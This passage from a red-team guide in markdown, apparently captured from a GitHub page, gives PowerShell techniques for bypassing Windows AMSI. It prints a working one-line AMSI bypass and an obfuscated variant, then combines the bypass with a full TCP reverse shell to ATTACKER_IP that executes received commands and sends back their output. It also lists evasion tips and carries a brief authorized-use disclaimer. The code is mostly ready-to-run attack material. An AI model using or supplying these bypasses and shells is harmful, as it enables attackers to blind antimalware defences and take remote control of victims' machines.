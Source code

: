 
## **Defensive Evasion Tips**
- Use AMSI bypass techniques.
- Test your payloads in a controlled environment.
- Use encrypted communication channels (e.g., HTTPS).

---

**Disclaimer**: Use these techniques only in authorized engagements. Unauthorized use is illegal.
```

---

## **3. Advanced AMSI Bypass Techniques for Red Teams**

```markdown
# Advanced AMSI Bypass Techniques for Red Teams

AMSI (Anti-Malware Scan Interface) is a significant obstacle for executing PowerShell payloads. This guide covers advanced AMSI bypass techniques for Red Teams.

---

## **Basic AMSI Bypass**
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

---

## **Obfuscated AMSI Bypass**
```powershell
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
```

---

## **Combining AMSI Bypass with a Payload**
```powershell
# AMSI Bypass
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# Reverse Shell Payload
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP", ATTACKER_PORT)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535 | %{0}

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i)
    $sendback = (Invoke-Expression $data 2>&1 | Out-String )
    $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte, 0, $sendbyte.Length)
    $stream.Flush()
}
$client.Close()
```

---